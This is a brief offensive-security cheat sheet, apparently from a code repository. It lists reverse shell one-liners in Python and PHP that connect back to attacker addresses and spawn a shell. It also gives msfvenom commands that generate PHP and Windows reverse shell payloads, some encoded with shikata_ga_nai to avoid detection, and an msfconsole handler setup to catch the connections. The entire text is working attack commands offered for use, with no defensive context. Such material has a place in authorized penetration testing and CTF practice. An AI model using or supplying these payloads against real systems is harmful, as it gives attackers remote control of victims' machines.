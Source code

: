 ### Python Reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-ip",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### php reverse shell
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

## msfvenom cheat sheet

### PHP Reverse shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -f raw
``` 

### windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp -LHOST=<attacker_ip> -LPORT=4444
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<local_ip> LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o v.exe
```

### Encoded Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4545 -f c -e x86/shikata_ga_nai

## msfconsole
```
root@kali:~$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
